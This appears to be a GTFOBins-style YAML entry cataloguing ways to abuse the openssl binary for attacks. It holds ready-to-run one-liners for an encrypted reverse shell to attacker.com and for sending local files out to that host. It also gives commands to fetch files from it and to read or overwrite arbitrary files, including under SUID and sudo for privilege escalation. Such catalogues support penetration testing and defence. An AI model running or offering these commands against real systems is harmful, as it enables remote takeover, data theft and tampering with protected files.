 ```yaml
---
functions:
  reverse-shell:
    - description: Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345` on the attacker box to receive the shell. Communication between attacker and target will be encrypted.
      code: |
        RHOST=attacker.com
        RPORT=12345
        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
  file-upload:
    - description: Send a file to a TCP port, transmission will be encrypted. Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        openssl s_client -quiet -connect $RHOST:$RPORT < "$LFILE"
  file-download:
    - description: Fetch a file from a TCP port, transmission will be encrypted. Run `openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < file_to_send` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        openssl enc -in "$TF" -out "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        openssl enc -in "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo DATA | openssl enc -out "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_write
        echo DATA | sudo openssl enc -out "$LFILE"
---
```


